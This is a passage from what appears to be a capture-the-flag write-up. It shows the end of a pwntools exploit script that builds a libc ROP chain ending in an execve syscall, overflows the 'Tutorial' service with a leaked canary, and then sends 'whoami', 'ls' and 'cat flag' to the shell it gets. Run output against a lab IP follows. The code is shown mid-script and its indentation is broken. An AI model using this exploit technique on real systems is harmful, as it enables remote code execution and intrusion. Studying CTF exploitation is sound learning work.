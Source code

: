 		p += struct.pack('<Q', libcadr+0x00000000003be088+16) # @ .data + 8
		p += struct.pack('<Q', libcadr+0x0000000000088b75) # xor rax, rax ; ret
		p+= struct.pack('<Q',libcadr+0x000487a8)#pop rax, ret
		p+= struct.pack('<Q',0x3b)
		p += struct.pack('<Q', libcadr+0x000000000000269f) # syscall
		
		r.sendline("2")
		for x in xrange(0,1):
		print r.recvline()
		r.sendline(payload)
		r.sendline("B"*len(payload)+p)
		
		#HOST = "192.168.56.101"
		PORT = 57365
		r = remote(HOST,PORT)
		r.sendline("whoami")
		print r.recvline()
		r.sendline("ls")
		print r.recvline()
		r.sendline("cat flag")
		print r.recvline()
					
		pass
	main()

Now for the testing.

	$ python s.py
	PORT:54321
	[+] Opening connection to 192.168.56.102 on port 54321: Done
	-Tutorial-
	
	1.Manual
	
	2.Practice
	
	3.Quit
	
	0x7f56357e4000
	-Tutorial-
	
	1.Manual
	
	2.Practice
	
	3.Quit
	
	>Time to test your exploit...
	
	0x55d60df6b3385400
	1.Manual
	
	2.Practice
	
	3.Quit
	
	>Time to test your exploit...

	[+] Opening connection to 192.168.56.102 on port 57365: Done
	tutorial
